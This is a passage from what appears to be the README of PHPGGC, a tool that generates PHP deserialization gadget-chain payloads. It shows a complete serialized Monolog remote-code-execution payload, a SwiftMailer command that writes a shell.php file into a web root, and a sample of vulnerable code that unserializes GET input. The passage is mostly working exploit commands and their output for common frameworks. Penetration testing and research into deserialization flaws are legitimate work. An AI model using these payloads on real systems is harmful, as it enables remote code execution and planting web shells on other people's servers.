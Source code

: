 Every gadget chain has:

- Name: Name of the framework/library
- Version: Version of the framework/library for which gadgets are for
- Type: Type of exploitation: RCE, File Write, File Read, Include...
- Vector: the vector to trigger the chain after the unserialize (`__destruct()`, `__toString()`, `offsetGet()`, ...)
- Informations: Other informations about the chain

Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <command>
```

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 assert 'phpinfo()'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```


## Wrapper

The `--wrapper` (`-w`) option allows you to define a PHP file containing the following functions:

- `process_parameters($parameters)`: Called right **before** `generate()`, allows to change parameters
- `process_object($object)`: Called right **before** `serialize()`, allows to change the object
- `process_serialized($serialized)`: Called right **after** `serialize()`, allows to change the serialized string

For instance, if the vulnerable code looks like this:

```php
<?php
$data = unserialize($_GET['data']);
print $data['message'];
```
